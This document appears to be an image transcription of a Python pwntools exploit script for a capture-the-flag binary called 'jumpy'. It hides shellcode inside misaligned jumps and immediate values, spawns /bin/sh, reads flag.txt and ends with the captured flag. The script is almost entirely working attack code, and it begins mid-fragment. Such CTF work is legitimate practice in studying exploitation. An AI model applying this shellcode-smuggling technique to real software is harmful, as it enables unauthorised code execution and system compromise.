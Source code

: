 ```python

dec eax;

dec eax;

dec eax;

dec eax;

xor esi, esi;

syscall;

""".replace("\n\n","\n")

#real_payload = "jmp 1\n" #relative jump to misalign
real_payload = "jmp 1\n"+"moveax " + str(0x909003eb) + "\n" #jump into this

print(real_payload)

for line in totalpayload.split("\n"):
    #now we can go up to 4 bytes :)
    #horribly inefficient, but hey
    assembled = asm(line)
    assembled = assembled.ljust(4,"\x90")
    assembled = list(map(ord, assembled))

    real_payload += "moveax " + str((assembled[3]<<24) + (assembled[2]<<16) + (assembled[1]<<8) + assembled[0]) + "\n"
    real_payload += "jmp 1\n"+"moveax " + str(0x909003eb) + "\n" #jump into this

assert(len(real_payload) < 0x1000)

doit = process("./jumpy")
#doit = process("ncat --ssl 7b0000007d6e40ae72c98948-jumpy.challenge.master.allesctf.net 31337".split(" "))

print(doit.recvuntil("> "))
raw_input()
for line in real_payload.split("\n"):
    doit.sendline(line)

doit.sendline("/bin/sh\x00")

doit.sendline("cat flag.txt")

doit.interactive()


#ALLES!{people have probably done this before but my google foo is weak. segmented shellcode maybe?}
```
